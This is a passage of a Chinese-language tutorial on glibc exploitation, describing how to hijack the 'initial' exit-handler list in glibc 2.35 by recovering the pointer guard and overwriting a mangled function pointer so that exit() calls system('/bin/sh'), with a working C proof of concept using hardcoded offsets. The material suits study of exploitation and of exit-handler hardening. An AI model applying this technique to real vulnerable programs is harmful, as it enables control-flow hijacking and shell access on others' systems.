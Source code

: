 所以函数调用过程分别为:

```C
_rtld_global._dl_rtld_lock_recursive (&_rtld_global._dl_load_lock.mutex);
_rtld_global._dl_rtld_unlock_recursive (&_rtld_global._dl_load_lock.mutex);
```

## 攻击方式

### 攻击 `initial`

1. 泄露 `libc` 地址(如果开启`ASLR`还需要知道 `ld` 地址)
2. 泄露 `initial` 内容(函数指针`f->func.cxa.fn(initial:0x18)`)
3. 计算 `tcbhead_t.pointer_guard` 的值(`pointer_guard = _dl_fini ^ (f->func.cxa.fn(initial:0x18) >> 0x11)`, `>>`为循环右移)
4. 修改 `initial` 的内容, 设置函数指针的值(`f->func.cxa.fn = (目标地址 ^ tcbhead_t->pointer_guard) << 0x11`, `<<`为循环左移), 设置函数参数(`initial:0x18`)
5. `exit`即可触发漏洞

__示例:__

```C
/**
 * 关闭ASLR  : sudo sysctl -w kernel.randomize_va_space=0
 * glibc版本 : glibc-2.35
 */
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

// 循环右移
#define ROR64(x, n) (((x) >> (n)) | ((x) << (64 - (n))))
// 循环左移
#define ROL64(x, n) (((x) << (n)) | ((x) >> (64 - (n))))

char binsh[] = "/bin/sh";

int main()
{
    // 泄露地址:glibc2.35.so
    size_t libc_base = (size_t)&system - 0x50d70;
    size_t *initial = (size_t *)(libc_base + 0x21bf00);
    size_t *_dl_fini = (size_t *)(libc_base + 0x3c9040);

    // 计算出tcbhead_t.pointer_guard的值
    size_t pointer_guard = ((size_t)_dl_fini) ^ ROR64((size_t) * (initial + 3), 0x11);

    // 修改函数指针和对应参数
    *(initial + 3) = ROL64(((size_t)&system) ^ pointer_guard, 0x11);
    *(initial + 4) = (size_t)binsh;

    // 触发漏洞
    exit(-1);

    return 0;
}
```
